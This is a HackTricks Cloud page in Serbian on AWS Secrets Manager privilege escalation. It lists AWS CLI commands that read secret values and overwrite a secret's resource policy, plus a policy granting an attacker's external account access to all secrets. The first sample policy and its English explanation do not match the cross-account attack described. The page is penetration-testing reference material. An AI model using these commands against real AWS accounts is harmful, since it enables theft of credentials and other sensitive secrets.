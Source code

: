 # AWS - Privilegija eskalacija u vezi sa upravljanjem tajnama

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu**, proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Upravljanje tajnama

Za više informacija o upravljanju tajnama, pogledajte:

{% content-ref url="../aws-services/aws-secrets-manager-enum.md" %}
[aws-secrets-manager-enum.md](../aws-services/aws-secrets-manager-enum.md)
{% endcontent-ref %}

### `secretsmanager:GetSecretValue`

Napadač sa ovlašćenjem može dobiti **sačuvanu vrednost unutar tajne** u AWS **Secretsmanager-u**.
```bash
aws secretsmanager get-secret-value --secret-id <secret_name> # Get value
```
**Potencijalni uticaj:** Pristup visoko osetljivim podacima unutar AWS usluge za upravljanje tajnama.

### `secretsmanager:GetResourcePolicy`, `secretsmanager:PutResourcePolicy`, (`secretsmanager:ListSecrets`)

Sa prethodnim dozvolama je moguće **omogućiti pristup drugim principima/računima (čak i eksternim)** za pristup **tajni**. Napomena da bi korisnik mogao **čitati tajne koje su šifrovane** KMS ključem, takođe mora imati **pristup nad KMS ključem** (više informacija na [KMS Enum stranici](../aws-services/aws-kms-enum.md)).
```bash
aws secretsmanager list-secrets
aws secretsmanager get-resource-policy --secret-id <secret_name>
aws secretsmanager put-resource-policy --secret-id <secret_name> --resource-policy file:///tmp/policy.json
```
policy.json:

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "AllowListSecrets",
            "Effect": "Allow",
            "Action": [
                "secretsmanager:ListSecrets"
            ],
            "Resource": "*"
        },
        {
            "Sid": "AllowGetSecretValue",
            "Effect": "Allow",
            "Action": [
                "secretsmanager:GetSecretValue"
            ],
            "Resource": "arn:aws:secretsmanager:us-west-2:123456789012:secret:MySecret"
        }
    ]
}
```

This `policy.json` file contains the permissions defined for an AWS Secrets Manager. The policy allows the user to list all secrets (`secretsmanager:ListSecrets`) and get the value of a specific secret (`secretsmanager:GetSecretValue`). The `Resource` field specifies the ARN (Amazon Resource Name) of the secret that can be accessed. In this case, the ARN is `arn:aws:secretsmanager:us-west-2:123456789012:secret:MySecret`.
```json
{
"Version" : "2012-10-17",
"Statement" : [ {
"Effect" : "Allow",
"Principal" : {
"AWS" : "arn:aws:iam::<attackers_account>:root"
},
"Action" : "secretsmanager:GetSecretValue",
"Resource" : "*"
} ]
}
```
<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRETPLATU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
